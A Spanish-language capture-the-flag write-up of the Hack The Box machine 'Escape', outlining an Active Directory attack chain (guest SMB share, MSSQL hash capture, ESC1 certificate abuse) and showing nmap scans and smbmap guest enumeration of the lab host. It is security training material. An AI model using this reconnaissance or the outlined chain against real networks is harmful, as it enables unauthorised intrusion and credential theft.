Escape es una máquina de nivel medio en Active Directory de Windows. Comienza con la enumeración de un recurso compartido SMB que permite a los usuarios autenticados como invitados en donde encontraremos un archivo PDF sensible para acceder a un servicio MSSQL en la máquina. Luego forzaremos al servicio MSSQL a autenticarse a nuestra maquina atacante y capturar el hash. Resulta que el servicio se está ejecutando bajo una cuenta de usuario y el hash es crackeable. Con un conjunto válido de credenciales. Explorando el sistema encontraremos las credenciales del usuario `ryan.cooper` en un archivo de registro. Además, se descubre una Autoridad de Certificación en la máquina, con una plantilla de certificado vulnerable al ataque ESC1. Esto permite a los usuarios solicitar certificados para cualquier otro usuario en el dominio, incluidos los Administradores de Dominio. Al explotar la vulnerabilidad ESC1, un atacante puede obtener un certificado válido para la cuenta de Administrador y luego usarlo para obtener el hash del usuario administrador.



# Enumeración

Iniciamos enumerando  los puertos que se encuentra abiertos en la maquina victima, esto con la herramienta de `nmap` 

```python
❯ nmap -p- --open --min-rate 5000 -vvv -Pn -n 10.10.11.202 -oG allportsScan
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
88/tcp    open  kerberos-sec     syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
593/tcp   open  http-rpc-epmap   syn-ack
636/tcp   open  ldapssl          syn-ack
1433/tcp  open  ms-sql-s         syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
5985/tcp  open  wsman            syn-ack
9389/tcp  open  adws             syn-ack
49667/tcp open  unknown          syn-ack
49673/tcp open  unknown          syn-ack
49674/tcp open  unknown          syn-ack
49686/tcp open  unknown          syn-ack
49726/tcp open  unknown          syn-ack
62405/tcp open  unknown          syn-ack
```

- `-p-`: especifica que se escaneen todos los puertos (desde el puerto 1 hasta el puerto 65535).
- `--open`: muestra solo los puertos que están abiertos.
- `--min-rate 5000`: establece la tasa mínima de paquetes por segundo a 5000 para acelerar el escaneo.
- `-vvv`: establece un nivel de verbosidad muy alto, mostrando una salida muy detallada del escaneo.
- `-Pn`: ignora la detección de hosts y asume que el objetivo está activo.
- `-n`: evita la resolución DNS inversa para las direcciones IP.
- `10.10.11.202`: es la dirección IP del host que se va a escanear.
- `-oG allportsScan`: genera un archivo de salida en formato greppable con el nombre "allportsScan".

Luego de obtener los puertos abiertos lo que haremos será enumerar los servicios y las versiones de estas en cada uno de los puertos.

```python
❯ nmap -p53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,49667,49673,49674,49686,49726,62405 -sC -sV -Pn -n -vvv 10.10.11.202 -oN servicesScan

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-03-13 03:43:54Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-03-13T03:45:26+00:00; +7h59m59s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA/domainComponent=sequel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-18T23:03:57
| Not valid after:  2074-01-05T23:03:57
| MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
| SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480
| -----BEGIN CERTIFICATE-----
| MIIFkTCCBHmgAwIBAgITHgAAAAsyZYRdLEkTIgAAAAAACzANBgkqhkiG9w0BAQsF
| ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGc2VxdWVs
| MRUwEwYDVQQDEwxzZXF1ZWwtREMtQ0EwIBcNMjQwMTE4MjMwMzU3WhgPMjA3NDAx
| MDUyMzAzNTdaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCvfUDG
| vZbf6oLv67FXEoeqi+VUDMwFcCWGOpwAlEvMCRhMa2Jqx6nVSl+7URU0rF43c58A
| kAFbwX9E5B4Me4ZDkqkHV5nBBkHEPdDP4ZlYsjAmVrz7bHAzp3coDgF9UKv9S4j8
| g9P8MPaOdxTRR6dwkhVWdIDvIevjeg7oWTawG7MFEX4b7BEwL/uNRYZtyFHrfmzP
| BL5MovrBbZzU4AnggnvpeiLNdenK9Xcp2IIDr8A7h7uFuQ+3pCbXL9El/vEgzxAj
| rsUhf2e6nxNAWrNZSFXLHREt9uFkhTWU26Zoa675Vjq0XNy7J+rXAZiU5q3eD4Kq
| /SiN+ZDAwWJ22XGJAgMBAAGjggK8MIICuDA4BgkrBgEEAYI3FQcEKzApBiErBgEE
| AYI3FQiHq/N2hdymVof9lTWDv8NZg4nKNYF3ASECAW4CAQIwMgYDVR0lBCswKQYI
| KwYBBQUHAwIGCCsGAQUFBwMBBgorBgEEAYI3FAICBgcrBgEFAgMFMA4GA1UdDwEB
| /wQEAwIFoDBABgkrBgEEAYI3FQoEMzAxMAoGCCsGAQUFBwMCMAoGCCsGAQUFBwMB
| MAwGCisGAQQBgjcUAgIwCQYHKwYBBQIDBTAdBgNVHQ4EFgQUCVbgZp4lOmGws1z7
| bP3InfTiHiMwHwYDVR0jBBgwFoAUYp8yo6DwOCDUYMDNbcX6UTBewxUwgcQGA1Ud
| HwSBvDCBuTCBtqCBs6CBsIaBrWxkYXA6Ly8vQ049c2VxdWVsLURDLUNBLENOPWRj
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPXNlcXVlbCxEQz1odGI/Y2VydGlmaWNhdGVSZXZv
| Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
| MIG9BggrBgEFBQcBAQSBsDCBrTCBqgYIKwYBBQUHMAKGgZ1sZGFwOi8vL0NOPXNl
| cXVlbC1EQy1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049
| U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1zZXF1ZWwsREM9aHRiP2NBQ2Vy
| dGlmaWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5
| MC8GA1UdEQEB/wQlMCOCDWRjLnNlcXVlbC5odGKCCnNlcXVlbC5odGKCBnNlcXVl
| bDANBgkqhkiG9w0BAQsFAAOCAQEAK2aJVbODF+3XQ85GflrcPthxILDslZoJff13
| ULw9IQRwFbr5wV/usQR8WXfp4FGWB7g6F3w4vOo8Wnm0eTcQM+N2Ry3aEWiv9SG8
| /Vk18Z1sSU2hzlTdZbVJWgZwCyPvYoV02uPkP12f+Z9groRTtOEBq0AgdMDc5hZ/
| A8Ikn9UuctvkX6qgw+ofyVveIqsE0GL6DCDGw6iUmXIgVJk5fgQnfyQquqnmhVnA
| 8NoXXuh0ioTHmCqYrdtIcB8KC4nS70p3ef2F2fTNejqtw46M04VZQw/67Y+83hI5
| I1fLChrYFtPk3g5JHaHyIE9aY3EUmU3EH2SKhRSi5R6GJBctmw==
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA/domainComponent=sequel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-18T23:03:57
| Not valid after:  2074-01-05T23:03:57
| MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
| SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480
| -----BEGIN CERTIFICATE-----
| MIIFkTCCBHmgAwIBAgITHgAAAAsyZYRdLEkTIgAAAAAACzANBgkqhkiG9w0BAQsF
| ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGc2VxdWVs
| MRUwEwYDVQQDEwxzZXF1ZWwtREMtQ0EwIBcNMjQwMTE4MjMwMzU3WhgPMjA3NDAx
| MDUyMzAzNTdaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCvfUDG
| vZbf6oLv67FXEoeqi+VUDMwFcCWGOpwAlEvMCRhMa2Jqx6nVSl+7URU0rF43c58A
| kAFbwX9E5B4Me4ZDkqkHV5nBBkHEPdDP4ZlYsjAmVrz7bHAzp3coDgF9UKv9S4j8
| g9P8MPaOdxTRR6dwkhVWdIDvIevjeg7oWTawG7MFEX4b7BEwL/uNRYZtyFHrfmzP
| BL5MovrBbZzU4AnggnvpeiLNdenK9Xcp2IIDr8A7h7uFuQ+3pCbXL9El/vEgzxAj
| rsUhf2e6nxNAWrNZSFXLHREt9uFkhTWU26Zoa675Vjq0XNy7J+rXAZiU5q3eD4Kq
| /SiN+ZDAwWJ22XGJAgMBAAGjggK8MIICuDA4BgkrBgEEAYI3FQcEKzApBiErBgEE
| AYI3FQiHq/N2hdymVof9lTWDv8NZg4nKNYF3ASECAW4CAQIwMgYDVR0lBCswKQYI
| KwYBBQUHAwIGCCsGAQUFBwMBBgorBgEEAYI3FAICBgcrBgEFAgMFMA4GA1UdDwEB
| /wQEAwIFoDBABgkrBgEEAYI3FQoEMzAxMAoGCCsGAQUFBwMCMAoGCCsGAQUFBwMB
| MAwGCisGAQQBgjcUAgIwCQYHKwYBBQIDBTAdBgNVHQ4EFgQUCVbgZp4lOmGws1z7
| bP3InfTiHiMwHwYDVR0jBBgwFoAUYp8yo6DwOCDUYMDNbcX6UTBewxUwgcQGA1Ud
| HwSBvDCBuTCBtqCBs6CBsIaBrWxkYXA6Ly8vQ049c2VxdWVsLURDLUNBLENOPWRj
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPXNlcXVlbCxEQz1odGI/Y2VydGlmaWNhdGVSZXZv
| Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
| MIG9BggrBgEFBQcBAQSBsDCBrTCBqgYIKwYBBQUHMAKGgZ1sZGFwOi8vL0NOPXNl
| cXVlbC1EQy1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049
| U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1zZXF1ZWwsREM9aHRiP2NBQ2Vy
| dGlmaWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5
| MC8GA1UdEQEB/wQlMCOCDWRjLnNlcXVlbC5odGKCCnNlcXVlbC5odGKCBnNlcXVl
| bDANBgkqhkiG9w0BAQsFAAOCAQEAK2aJVbODF+3XQ85GflrcPthxILDslZoJff13
| ULw9IQRwFbr5wV/usQR8WXfp4FGWB7g6F3w4vOo8Wnm0eTcQM+N2Ry3aEWiv9SG8
| /Vk18Z1sSU2hzlTdZbVJWgZwCyPvYoV02uPkP12f+Z9groRTtOEBq0AgdMDc5hZ/
| A8Ikn9UuctvkX6qgw+ofyVveIqsE0GL6DCDGw6iUmXIgVJk5fgQnfyQquqnmhVnA
| 8NoXXuh0ioTHmCqYrdtIcB8KC4nS70p3ef2F2fTNejqtw46M04VZQw/67Y+83hI5
| I1fLChrYFtPk3g5JHaHyIE9aY3EUmU3EH2SKhRSi5R6GJBctmw==
|_-----END CERTIFICATE-----
|_ssl-date: 2024-03-13T03:45:26+00:00; +7h59m59s from scanner time.
1433/tcp  open  ms-sql-s      syn-ack Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.10.11.202:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2024-03-13T03:45:26+00:00; +7h59m59s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-03-13T01:31:47
| Not valid after:  2054-03-13T01:31:47
| MD5:   5df6:7ed9:9999:c52d:f4a9:b120:6cd8:d066
| SHA-1: 30d9:1c03:f084:3d54:cdec:565a:c7af:b9ca:8bc0:5ea1
| -----BEGIN CERTIFICATE-----
| MIIDADCCAeigAwIBAgIQFUbxcTJj0YZK1+u7euHYnTANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjQwMzEzMDEzMTQ3WhgPMjA1NDAzMTMwMTMxNDdaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAK28k8/r
| BXvAox15da6pkEmjRllRgyHpS4zV29ZCt2KmRG7tk+4xQQ2Ba0plEh3Q7epZ3IpP
| dqAbj1d39gbjtBprteHKnxCBOfwtszeawgCi7D0grpv4MGLYJk3wglc2ZyYa26nB
| 88Qn/6aV3piowmT9NWG3J3RCTVixdisoYTp2d5FvzVSwDQlo/ta++iJFZA2FS3dR
| TmbFB3i22XaV9gb5n7my+0hIMta/EgAW6JgUg9JTqsQ9BV3VWmX9EQm9GcuRpT4j
| SVBvonlTk98hQGpZzh/xe6w8Xrbcfd7ssDphygImpTCke1oUULudmJwJn2P7RKI/
| 3GfY8ErrdlX0tSECAwEAATANBgkqhkiG9w0BAQsFAAOCAQEAS7NBkfODBkQFmBgN
| BbClKsKDA5mTH/Kzz8KVsI6q/7FeCRYVkqqRFeJW4RkqSGhXu4YiocGsDkYtEt8Z
| OjoOuieFlG5xFG1kpkmOtCeZ873hidKmR2lbrYMj7rPw1FAQKDY0RH8jqATdjjrt
| KVCsrQUigYDzrxLN1maThGXMZnOOzCzaxiFcQhR2YghHSIZYRb6r7AiaO6c9mUig
| 8+glBMCbJKBtB7IDJvC0XdRx3LqWsR95IZErdY+IZqQZRer7vtgSfxScG7XHw1gb
| SBY1tsuNH7VOf8ZYojZbYP+FfVqa8buv583SsdKfz2h7BgaicAy2ibV4txVc4S7Q
| lN3a8g==
|_-----END CERTIFICATE-----
| ms-sql-ntlm-info: 
|   10.10.11.202:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA/domainComponent=sequel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-18T23:03:57
| Not valid after:  2074-01-05T23:03:57
| MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
| SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480
| -----BEGIN CERTIFICATE-----
| MIIFkTCCBHmgAwIBAgITHgAAAAsyZYRdLEkTIgAAAAAACzANBgkqhkiG9w0BAQsF
| ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGc2VxdWVs
| MRUwEwYDVQQDEwxzZXF1ZWwtREMtQ0EwIBcNMjQwMTE4MjMwMzU3WhgPMjA3NDAx
| MDUyMzAzNTdaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCvfUDG
| vZbf6oLv67FXEoeqi+VUDMwFcCWGOpwAlEvMCRhMa2Jqx6nVSl+7URU0rF43c58A
| kAFbwX9E5B4Me4ZDkqkHV5nBBkHEPdDP4ZlYsjAmVrz7bHAzp3coDgF9UKv9S4j8
| g9P8MPaOdxTRR6dwkhVWdIDvIevjeg7oWTawG7MFEX4b7BEwL/uNRYZtyFHrfmzP
| BL5MovrBbZzU4AnggnvpeiLNdenK9Xcp2IIDr8A7h7uFuQ+3pCbXL9El/vEgzxAj
| rsUhf2e6nxNAWrNZSFXLHREt9uFkhTWU26Zoa675Vjq0XNy7J+rXAZiU5q3eD4Kq
| /SiN+ZDAwWJ22XGJAgMBAAGjggK8MIICuDA4BgkrBgEEAYI3FQcEKzApBiErBgEE
| AYI3FQiHq/N2hdymVof9lTWDv8NZg4nKNYF3ASECAW4CAQIwMgYDVR0lBCswKQYI
| KwYBBQUHAwIGCCsGAQUFBwMBBgorBgEEAYI3FAICBgcrBgEFAgMFMA4GA1UdDwEB
| /wQEAwIFoDBABgkrBgEEAYI3FQoEMzAxMAoGCCsGAQUFBwMCMAoGCCsGAQUFBwMB
| MAwGCisGAQQBgjcUAgIwCQYHKwYBBQIDBTAdBgNVHQ4EFgQUCVbgZp4lOmGws1z7
| bP3InfTiHiMwHwYDVR0jBBgwFoAUYp8yo6DwOCDUYMDNbcX6UTBewxUwgcQGA1Ud
| HwSBvDCBuTCBtqCBs6CBsIaBrWxkYXA6Ly8vQ049c2VxdWVsLURDLUNBLENOPWRj
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPXNlcXVlbCxEQz1odGI/Y2VydGlmaWNhdGVSZXZv
| Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
| MIG9BggrBgEFBQcBAQSBsDCBrTCBqgYIKwYBBQUHMAKGgZ1sZGFwOi8vL0NOPXNl
| cXVlbC1EQy1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049
| U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1zZXF1ZWwsREM9aHRiP2NBQ2Vy
| dGlmaWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5
| MC8GA1UdEQEB/wQlMCOCDWRjLnNlcXVlbC5odGKCCnNlcXVlbC5odGKCBnNlcXVl
| bDANBgkqhkiG9w0BAQsFAAOCAQEAK2aJVbODF+3XQ85GflrcPthxILDslZoJff13
| ULw9IQRwFbr5wV/usQR8WXfp4FGWB7g6F3w4vOo8Wnm0eTcQM+N2Ry3aEWiv9SG8
| /Vk18Z1sSU2hzlTdZbVJWgZwCyPvYoV02uPkP12f+Z9groRTtOEBq0AgdMDc5hZ/
| A8Ikn9UuctvkX6qgw+ofyVveIqsE0GL6DCDGw6iUmXIgVJk5fgQnfyQquqnmhVnA
| 8NoXXuh0ioTHmCqYrdtIcB8KC4nS70p3ef2F2fTNejqtw46M04VZQw/67Y+83hI5
| I1fLChrYFtPk3g5JHaHyIE9aY3EUmU3EH2SKhRSi5R6GJBctmw==
|_-----END CERTIFICATE-----
|_ssl-date: 2024-03-13T03:45:26+00:00; +7h59m59s from scanner time.
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA/domainComponent=sequel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-18T23:03:57
| Not valid after:  2074-01-05T23:03:57
| MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
| SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480
| -----BEGIN CERTIFICATE-----
| MIIFkTCCBHmgAwIBAgITHgAAAAsyZYRdLEkTIgAAAAAACzANBgkqhkiG9w0BAQsF
| ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGc2VxdWVs
| MRUwEwYDVQQDEwxzZXF1ZWwtREMtQ0EwIBcNMjQwMTE4MjMwMzU3WhgPMjA3NDAx
| MDUyMzAzNTdaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCvfUDG
| vZbf6oLv67FXEoeqi+VUDMwFcCWGOpwAlEvMCRhMa2Jqx6nVSl+7URU0rF43c58A
| kAFbwX9E5B4Me4ZDkqkHV5nBBkHEPdDP4ZlYsjAmVrz7bHAzp3coDgF9UKv9S4j8
| g9P8MPaOdxTRR6dwkhVWdIDvIevjeg7oWTawG7MFEX4b7BEwL/uNRYZtyFHrfmzP
| BL5MovrBbZzU4AnggnvpeiLNdenK9Xcp2IIDr8A7h7uFuQ+3pCbXL9El/vEgzxAj
| rsUhf2e6nxNAWrNZSFXLHREt9uFkhTWU26Zoa675Vjq0XNy7J+rXAZiU5q3eD4Kq
| /SiN+ZDAwWJ22XGJAgMBAAGjggK8MIICuDA4BgkrBgEEAYI3FQcEKzApBiErBgEE
| AYI3FQiHq/N2hdymVof9lTWDv8NZg4nKNYF3ASECAW4CAQIwMgYDVR0lBCswKQYI
| KwYBBQUHAwIGCCsGAQUFBwMBBgorBgEEAYI3FAICBgcrBgEFAgMFMA4GA1UdDwEB
| /wQEAwIFoDBABgkrBgEEAYI3FQoEMzAxMAoGCCsGAQUFBwMCMAoGCCsGAQUFBwMB
| MAwGCisGAQQBgjcUAgIwCQYHKwYBBQIDBTAdBgNVHQ4EFgQUCVbgZp4lOmGws1z7
| bP3InfTiHiMwHwYDVR0jBBgwFoAUYp8yo6DwOCDUYMDNbcX6UTBewxUwgcQGA1Ud
| HwSBvDCBuTCBtqCBs6CBsIaBrWxkYXA6Ly8vQ049c2VxdWVsLURDLUNBLENOPWRj
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPXNlcXVlbCxEQz1odGI/Y2VydGlmaWNhdGVSZXZv
| Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
| MIG9BggrBgEFBQcBAQSBsDCBrTCBqgYIKwYBBQUHMAKGgZ1sZGFwOi8vL0NOPXNl
| cXVlbC1EQy1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049
| U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1zZXF1ZWwsREM9aHRiP2NBQ2Vy
| dGlmaWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5
| MC8GA1UdEQEB/wQlMCOCDWRjLnNlcXVlbC5odGKCCnNlcXVlbC5odGKCBnNlcXVl
| bDANBgkqhkiG9w0BAQsFAAOCAQEAK2aJVbODF+3XQ85GflrcPthxILDslZoJff13
| ULw9IQRwFbr5wV/usQR8WXfp4FGWB7g6F3w4vOo8Wnm0eTcQM+N2Ry3aEWiv9SG8
| /Vk18Z1sSU2hzlTdZbVJWgZwCyPvYoV02uPkP12f+Z9groRTtOEBq0AgdMDc5hZ/
| A8Ikn9UuctvkX6qgw+ofyVveIqsE0GL6DCDGw6iUmXIgVJk5fgQnfyQquqnmhVnA
| 8NoXXuh0ioTHmCqYrdtIcB8KC4nS70p3ef2F2fTNejqtw46M04VZQw/67Y+83hI5
| I1fLChrYFtPk3g5JHaHyIE9aY3EUmU3EH2SKhRSi5R6GJBctmw==
|_-----END CERTIFICATE-----
|_ssl-date: 2024-03-13T03:45:26+00:00; +7h59m59s from scanner time.
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack Microsoft Windows RPC
49686/tcp open  msrpc         syn-ack Microsoft Windows RPC
49726/tcp open  msrpc         syn-ack Microsoft Windows RPC
62405/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-03-13T03:44:46
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 63970/tcp): CLEAN (Timeout)
|   Check 2 (port 8616/tcp): CLEAN (Timeout)
|   Check 3 (port 50586/udp): CLEAN (Timeout)
|   Check 4 (port 37807/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 7h59m58s, deviation: 0s, median: 7h59m58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

- `-p`: especifica los puertos a escanear. En este caso, se están escaneando los puertos 53, 88, 135, 139, 389, 445, 464, 593, 636, 1433, 3268, 3269, 5985, 9389, 49667, 49673, 49674, 49686, 49726 y 62405.
- `-sC`: activa la opción de enumeración de scripts predeterminados de Nmap. Esto permite ejecutar una serie de scripts diseñados para detectar vulnerabilidades o características específicas de los servicios.
- `-sV`: realiza una detección de la versión de los servicios que se encuentran en los puertos especificados.
- `-Pn`: ignora el descubrimiento de hosts y asume que el objetivo está activo.
- `-n`: evita la resolución DNS inversa para las direcciones IP.
- `-vvv`: establece un nivel de verbosidad muy alto, mostrando una salida muy detallada del escaneo.
- `10.10.11.202`: es la dirección IP del host que se va a escanear.
- `-oN servicesScan`: genera un archivo de salida en formato normal con el nombre "servicesScan".

## Enumeración de smb 

Encontramos que el servicio smb esta abierto y procederemos a enumerar los recursos compartidos  que están disponibles.

```python
❯ smbmap -H 10.10.11.202 -u 'guest'
```



Podemos ver que tenemos permiso de lectura en el directorio `Public`. Haciendo uso de `smbclient` ingresaremos al recurso compartido para ver el contenido de la carpeta



Dentro del directorio encontraremos un `pdf` que contiene credenciales que podemos para tratar de ingresar a la maquina victima.

